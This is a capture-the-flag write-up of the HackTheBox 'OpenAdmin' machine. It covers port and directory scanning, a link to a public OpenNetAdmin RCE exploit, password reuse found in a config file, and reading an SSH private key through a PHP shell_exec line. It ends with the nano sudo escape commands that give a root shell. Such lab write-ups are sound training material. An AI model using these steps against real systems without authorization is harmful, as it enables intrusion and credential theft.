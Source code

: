 ## HackTheBox - OpenAdmin

We start with the usual portscan and see which ports are open.

`nmap  -sS -T4 -sV <IP>`

![Screenshot0](./screenshots/screenshot0.png)

We see an open SSH server and web server.
Then we go further and enumerate the web server with FFUF.

```
ffuf -w <WORDLIST> -u http:/<IP>//FUZZ -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.171//FUZZ
 :: Wordlist         : FUZZ: all-dir-all-raft.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 3014ms]
.                       [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 927ms]
artwork                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 245ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 319ms]
marga                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 90ms]
music                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 120ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 115ms]
sierra                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 97ms]
```

We get some folders displayed and all of them have a different website set up.
I took a closer look at each website, checked if robots.txt files are present, HTTP responses and so on.
At the page under `/music` I found at the menu under `Login` a new interesting path `/ona`.

We navigate to `/ona` and see an open administration panel.

![Screenshot1](./screenshots/screenshot1.png)

We also immediately see an interesting piece of information:

`You are NOT on the latest release version Your version    = v18.1.1`

A simple google search `"v18.1.1" "/ona"` told us that the version was vulnerable and used that exploit:
https://github.com/amriunix/ona-rce/blob/master/ona-rce.py

![Screenshot2](./screenshots/screenshot2.png)

## PrivEsc 1 (horizontal)
The exploit worked well and we see that we are operating under the `www-data` user.
I enumerated the system carefully and found in the file `/var/www/html/ona/local/config/database_settings.inc.php` a password that was used twice.

```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => '<REDACTED>',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

![Screenshot3](./screenshots/screenshot3.png)

## PrivEsc 2 (vertical)
However, there is no flag in our home directory of user jimmy.
If we look at the sockets on the machine, we can see that there must be something interesting on port `52846`.

![Screenshot4](./screenshots/screenshot4.png)

The source code of the application can be found at `/var/www/internal`.

`cat /var/www/internal/main.php`

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

The line `$output = shell_exec('cat /home/joanna/.ssh/id_rsa');` shows us that we probably get the SSH_Key here.
It was already enough to get the SSH key via curl on `main.php`.

![Screenshot5](./screenshots/screenshot5.png)

The password was quickly cracked with john-the ripper.

![Screenshot6](./screenshots/screenshot6.png)

Now we can log in as user `joanna` via SSH and get the user flag.

`ssh -i id_rsa joanna@<IP>`

![Screenshot7](./screenshots/screenshot7.png)

## PrivEsc 3 (horizontal)
The last privilege escalation was done quickly.

`sudo -l` and a subsequent look at https://gtfobins.github.io/gtfobins/nano/ lets us know what to do and we get the root flag.

![Screenshot8](./screenshots/screenshot8.png)

We execute the following commands in the nano menu and are root.

```
sudo -u root /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```

![Screenshot9](./screenshots/screenshot9.png)
